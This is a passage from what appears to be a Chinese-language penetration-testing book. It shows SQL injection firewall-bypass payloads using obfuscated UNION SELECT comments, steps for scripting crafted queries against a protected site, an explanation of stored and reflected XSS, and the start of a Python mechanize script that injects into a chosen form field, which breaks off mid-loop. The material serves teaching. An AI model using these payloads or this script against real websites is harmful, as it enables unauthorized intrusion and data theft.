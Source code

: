 ```py
/*!UNION*/ SELECT 1,2,3,4,5,6,--
/*!00000UNION*/ SELECT 1,2,database(),4,5,6 –
/*!UnIoN*/ /*!sElEcT*/ 1,2,3,4,5,6 –
```

您可以创建精心编制的查询列表。当简单查询不起作用时，您可以检查网站的行为。根据行为，您可以决定查询是否成功。在本例中，Python 编程非常有用。

现在，让我们看一下为基于防火墙的网站制作 Python 程序的以下步骤：

1.  列出所有精心编制的查询
2.  对网站应用一个简单的查询并观察网站的响应
3.  对不成功的尝试使用此`attempt not successful`响应
4.  逐个应用列出的查询并匹配程序的响应
5.  如果响应不匹配，则手动检查查询
6.  如果看起来成功了，那么停止该程序

前面的步骤仅用于显示精心编制的查询是否成功。只有通过查看网站才能找到所需的结果。

# 学习跨站点脚本

在本节中，我们将讨论**跨站点脚本**（**XSS**攻击。XSS 攻击利用动态生成的网页中的漏洞进行攻击，当发送到用户浏览器进行呈现的动态内容中包含无效输入数据时，就会发生这种情况。

跨站点攻击有以下两种类型：

*   持久的或存储的 XSS
*   非持久或反射 XSS

# 持久的或存储的 XSS

在这种类型的攻击中，攻击者的输入存储在 web 服务器中。在一些网站上，你会看到评论栏和一个可以写评论的消息框。提交评论后，您的评论将显示在显示页面上。试着想想一个例子，你的评论变成了 web 服务器 HTML 页面的一部分；这意味着您可以更改网页。如果没有适当的验证，那么恶意代码可能会存储在数据库中，当它反射回网页时，会产生不良效果。它永久存储在数据库服务器中，这就是为什么它被称为持久性。

# 非持久或反射 XSS

在这种类型的攻击中，攻击者的输入不会存储在数据库服务器中。响应以错误消息的形式返回。输入与 URL 一起提供，或在搜索字段中提供。在本章中，我们将研究存储的 XSS。

现在，让我们看看 XSS 攻击的代码。代码的逻辑是向网站发送漏洞攻击。在以下代码中，我们将攻击表单的一个字段：

```py
import mechanize
import re 
import shelve
br = mechanize.Browser()
br.set_handle_robots( False )
url = raw_input("Enter URL ")
br.set_handle_equiv(True)
br.set_handle_gzip(True)
#br.set_handle_redirect(False)
br.set_handle_referer(True)
br.set_handle_robots(False)
br.open(url)
s = shelve.open("mohit.xss",writeback=True)
for form in br.forms():
  print form

att = raw_input("Enter the attack field ")
non = raw_input("Enter the normal field ")
br.select_form(nr=0)

p =0
flag = 'y'
while flag =="y":
  br.open(url)
  br.select_form(nr=0)
  br.form[non] = 'aaaaaaa'
```